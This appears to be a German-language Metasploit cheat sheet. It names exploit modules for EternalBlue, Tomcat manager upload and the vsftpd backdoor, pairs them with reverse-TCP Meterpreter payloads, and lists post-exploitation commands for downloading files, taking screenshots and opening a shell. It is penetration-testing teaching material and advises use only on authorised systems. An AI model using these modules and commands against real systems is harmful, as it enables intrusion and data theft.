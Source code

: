 
### **Typische Exploits**

1. **MS17-010 (EternalBlue)**
   - Modul: `exploit/windows/smb/ms17_010_eternalblue`
   - Payload: `windows/x64/meterpreter/reverse_tcp`

2. **Tomcat Manager Exploit**
   - Modul: `exploit/multi/http/tomcat_mgr_upload`
   - Payload: `java/meterpreter/reverse_tcp`

3. **Vsftpd Backdoor**
   - Modul: `exploit/unix/ftp/vsftpd_234_backdoor`

---

### **Meterpreter**

**Meterpreter** ist ein erweiterter Payload, der mächtige Post-Exploitation-Funktionen bietet.

#### **Grundlegende Befehle**
- **Hilfe anzeigen:**
  ```bash
  help
  ```
- **Systeminformationen anzeigen:**
  ```bash
  sysinfo
  ```
- **Dateien auflisten:**
  ```bash
  ls
  ```
- **Arbeitsverzeichnis wechseln:**
  ```bash
  cd <Pfad>
  ```
- **Datei herunterladen:**
  ```bash
  download <Datei>
  ```
- **Screenshot aufnehmen:**
  ```bash
  screenshot
  ```
- **Shell öffnen:**
  ```bash
  shell
  ```

---

### **Tipps zur Nutzung**

1. **Sicherheit beachten**: Nutze Metasploit nur auf autorisierten Systemen.
2. **Up-to-date bleiben**: Regelmäßige Updates des Frameworks durchführen:
   ```bash
   msfupdate
   ```
3. **Umgebungen testen**: Virtuelle Maschinen nutzen, um Exploits zu üben.
4. **Daten speichern**: Ergebnisse regelmäßig mit Workspaces und Datenbanken sichern.

---